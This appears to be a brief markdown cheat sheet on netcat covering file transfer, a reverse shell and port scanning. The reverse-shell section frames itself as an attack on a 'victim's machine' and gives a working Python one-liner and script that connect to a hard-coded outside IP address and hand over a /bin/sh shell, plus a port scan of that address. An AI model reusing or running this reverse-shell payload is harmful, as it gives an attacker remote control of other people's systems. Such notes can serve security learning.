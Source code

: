 # Netcat
general network debugging tool, supports tcp udp

# usage examples

## receiving files

the l flag is for listen
``` shell
nc -l 6789 > file.txt
```

## sending a file
```shell
nc receiving_host 6798 < file_to_send
```

## setting up a reverse shell on a client

```A reverse shell``` is the redirection of the output/input streams of a shell to a distant machine  
**In the atacker's machine** listen to connections on a given port 
```sh
nc -l 9999
```
**On the victims machine**  redirect a root shell i/o streams to the attacker's machine ip:port using a c or python program
```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("178.79.152.114",123));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

```python
### for readability, the command in a script
#!/usr/bin/python3 python3

import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("178.79.152.114",9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

## Port scanning
```sh
nc -z -v 178.79.152.114 1-100
```
- -z try to connect to ports passed in params  
- -v verbose
- 1-100 range of ports to try